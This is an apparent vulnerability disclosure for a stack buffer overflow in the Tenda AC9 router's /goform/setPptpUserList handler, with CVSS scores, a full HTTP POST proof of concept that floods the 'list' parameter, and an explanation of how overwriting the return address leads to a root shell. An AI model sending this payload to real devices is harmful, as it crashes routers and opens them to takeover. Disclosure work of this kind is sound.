



# Tenda AC9 Wireless Router /goform/setPptpUserList list Stack Overflow

## 1 Basic Information

- Vulnerability Type: Buffer overflow
- Vulnerability Description: A buffer overflow vulnerability exists in the Tenda AC9 wireless router, firmware version V15.03.05.19. Its /goform/setPptpUserList implementation has a security vulnerability in the processing of list POST parameters, allowing remote attackers to use the vulnerability to submit special requests, resulting in buffer overflow, which can seriously lead to the execution of arbitrary OS commands.
- Device model:
   - Tenda AC9 Wireless Router
   - Firmware Version: V15.03.05.19

## 2 Vulnerability Value

- Stable Reproducibility: yes
- Vulnerability Score (refer to CVSS)
   - V2: [8.5 High AV:N/AC:M/Au:S/C:C/I:C/A:C](https://nvd.nist.gov/vuln-metrics/cvss/v2-calculator ?vector=(AV:N/AC:M/Au:S/C:C/I:C/A:C))
   - V3.1: [9.1 High AV:N/AC:L/PR:H/UI:N/S:C/C:H/I:H/A:H](https://nvd.nist.gov /vuln-metrics/cvss/v3-calculator?vector=AV:N/AC:L/PR:N/UI:N/S:C/C:N/I:N/A:H&version=3.1)
- Exploit Conditions
   - Attack Vector Type: Network
   - Attack Complexity: Low
   - Complexity of exploit
     - Permission Constraints: identity authentication is required
     - User Interaction: no victim interaction required
   - Scope of Impact: Changed (can affect components other than vulnerable components)
   - Impact Indicators:
     - Confidentiality: High
     - Integrity: High
     - Availability: High
   - Stability of exploits: stable recurrence
   - Whether the product is configured by default: there are loopholes in the functional components that are enabled from the factory
- Exploit Effect
   - Denial of service
   - Remote Code Execution (RCE)

## 3 PoC

```http
POST /goform/setPptpUserList HTTP/1.1
Host: 10.37.129.2:8081
Connection: keep-alive
Content-Length: 2048
Accept: */*
X-Requested-With: XMLHttpRequest
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://10.37.129.2:8081
Referer: http://10.37.129.2:8081/system_led.html?random=0.7969342657337226&
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: bLanguage=cn; password=sou23f

list=admin;admiansd;1;0;;;~sadw;asd;1;0;;;list=admin;admiansd;1;0;;;~sadw;asd;1;0;;;list=admin;admiansd;1;0;;;~sadw;asd;1;0;;;list=admin;admiansd;1;0;;;~sadw;asd;1;0;;;list=admin;admiansd;1;0;;;~sadw;asd;1;0;;;list=admin;admiansd;1;0;;;~sadw;asd;1;0;;;list=admin;admiansd;1;0;;;~sadw;asd;1;0;;;list=admin;admiansd;1;0;;;~sadw;asd;1;0;;;list=admin;admiansd;1;0;;;~sadw;asd;1;0;;;list=admin;admiansd;1;0;;;~sadw;asd;1;0;;;list=admin;admiansd;1;0;;;~sadw;asd;1;0;;;list=admin;admiansd;1;0;;;~sadw;asd;1;0;;;list=admin;admiansd;1;0;;;~sadw;asd;1;0;;;list=admin;admiansd;1;0;;;~sadw;asd;1;0;;;list=admin;admiansd;1;0;;;~sadw;asd;1;0;;;list=admin;admiansd;1;0;;;~sadw;asd;1;0;;;list=admin;admiansd;1;0;;;~sadw;asd;1;0;;;list=admin;admiansd;1;0;;;~sadw;asd;1;0;;;list=admin;admiansd;1;0;;;~sadw;asd;1;0;;;list=admin;admiansd;1;0;;;~sadw;asd;1;0;;;list=admin;admiansd;1;0;;;~sadw;asd;1;0;;;list=admin;admiansd;1;0;;;~sadw;asd;1;0;;;list=admin;admiansd;1;0;;;~sadw;asd;1;0;;;list=admin;admiansd;1;0;;;~sadw;asd;1;0;;;list=admin;admiansd;1;0;;;~sadw;asd;1;0;;;list=admin;admiansd;1;0;;;~sadw;asd;1;0;;;list=admin;admiansd;1;0;;;~sadw;asd;1;0;;;list=admin;admiansd;1;0;;;~sadw;asd;1;0;;;list=admin;admiansd;1;0;;;~sadw;asd;1;0;;;list=admin;admiansd;1;0;;;~sadw;asd;1;0;;;list=admin;admiansd;1;0;;;~sadw;asd;1;0;;;list=admin;admiansd;1;0;;;~sadw;asd;1;0;;;list=admin;admiansd;1;0;;;~sadw;asd;1;0;;;list=admin;admiansd;1;0;;;~sadw;asd;1;0;;;list=admin;admiansd;1;0;;;~sadw;asd;1;0;;;list=admin;admiansd;1;0;;;~sadw;asd;1;0;;;list=admin;admiansd;1;0;;;~sadw;asd;1;0;;;list=admin;admiansd;1;0;;;~sadw;asd;1;0;;;list=admin;admiansd;1;0;;;~sadw;asd;1;0;;;list=admin;admiansd;1;0;;;~sadw;asd;1;0;;;list=admin;admiansd;1;0;;;~sadw;asd;1;0;;;list=admin;admiansd;1;0;;;~sadw;asd;1;0;;;list=admin;admiansd;1;0;;;~sadw;asd;1;0;;;list=admin;admiansd;1;0;;;~sadw;asd;1;0;;;list=admin;admiansd;1;0;;;~sadw;asd;1;0;;;list=admin;admiansd;1;0;;;~sadw;asd;1;0;;;list=admin;admiansd;1;0;;;~sadw;asd;1;0;;;list=admin;admiansd;1;0;;;~sadw;asd;1;0;;;list=admin;admiansd;1;0;;;~sadw;
```

* Before
  * 
* Send PoC
  * 
* After
  * 

Finally, you can write exp, which can achieve a very stable effect of obtaining the root shell.

## 4 Vulnerability Principle

When the web management component receives a POST request, its /goform/setPptpUserList component implements a security vulnerability in processing the list POST parameter. The length of the list parameter can be any length and is placed on the stack without checking, resulting in stack overflow. Attackers can use this vulnerability to overwrite the return address, and then be exploited to achieve the effect of remote arbitrary command execution.